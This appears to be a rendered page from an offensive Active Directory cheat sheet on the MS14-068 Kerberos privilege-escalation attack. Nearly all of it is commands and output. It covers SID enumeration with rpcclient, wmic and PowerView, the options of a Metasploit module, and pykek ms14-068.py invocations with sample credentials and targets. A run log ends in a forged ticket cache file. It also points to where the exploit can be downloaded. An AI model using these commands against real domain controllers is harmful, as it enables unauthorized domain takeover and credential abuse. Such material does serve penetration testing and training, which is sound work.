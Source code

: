 ```powershell
# remote
rpcclient $> lookupnames john.smith
john.smith S-1-5-21-2923581646-3335815371-2872905324-1107 (User: 1)

# loc
wmic useraccount get name,sid
Administrator  S-1-5-21-3415849876-833628785-5197346142-500   
Guest          S-1-5-21-3415849876-833628785-5197346142-501   
Administrator  S-1-5-21-297520375-2634728305-5197346142-500   
Guest          S-1-5-21-297520375-2634728305-5197346142-501   
krbtgt         S-1-5-21-297520375-2634728305-5197346142-502   
lambda         S-1-5-21-297520375-2634728305-5197346142-1110 

# powerview
Convert-NameToSid high-sec-corp.localkrbtgt
S-1-5-21-2941561648-383941485-1389968811-502
```

```bash
Doc: https://github.com/gentilkiwi/kekeo/wiki/ms14068
```

Generate a ticket with `metasploit` or `pykek`

```powershell
Metasploit: auxiliary/admin/kerberos/ms14_068_kerberos_checksum
   Name      Current Setting                                Required  Description
   ----      ---------------                                --------  -----------
   DOMAIN    LABDOMAIN.LOCAL                                yes       The Domain (upper case) Ex: DEMO.LOCAL
   PASSWORD  P@ssw0rd                                       yes       The Domain User password
   RHOSTS    10.10.10.10                                    yes       The target address range or CIDR identifier
   RPORT     88                                             yes       The target port
   Timeout   10                                             yes       The TCP timeout to establish connection and read data
   USER      lambda                                         yes       The Domain User
   USER_SID  S-1-5-21-297520375-2634728305-5197346142-1106  yes       The Domain User SID, Ex: S-1-5-21-1755879683-3641577184-3486455962-1000
```

```powershell
# Alternative download: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek
$ git clone https://github.com/SecWiki/windows-kernel-exploits
$ python ./ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr> -p <clearPassword>
$ python ./ms14-068.py -u darthsidious@lab.adsecurity.org -p TheEmperor99! -s S-1-5-21-1473643419-774954089-2222329127-1110 -d adsdc02.lab.adsecurity.org
$ python ./ms14-068.py -u john.smith@pwn3d.local -s S-1-5-21-2923581646-3335815371-2872905324-1107 -d 192.168.115.10
$ python ms14-068.py -u user01@metasploitable.local -d msfdc01.metasploitable.local -p Password1 -s S-1-5-21-2928836948-3642677517-2073454066
-1105
  [+] Building AS-REQ for msfdc01.metasploitable.local... Done!
  [+] Sending AS-REQ to msfdc01.metasploitable.local... Done!
  [+] Receiving AS-REP from msfdc01.metasploitable.local... Done!
  [+] Parsing AS-REP from msfdc01.metasploitable.local... Done!
  [+] Building TGS-REQ for msfdc01.metasploitable.local... Done!
  [+] Sending TGS-REQ to msfdc01.metasploitable.local... Done!
  [+] Receiving TGS-REP from msfdc01.metasploitable.local... Done!
  [+] Parsing TGS-REP from msfdc01.metasploitable.local... Done!
  [+] Creating ccache file 'TGT_user01@metasploitable.local.ccache'... Done!
```
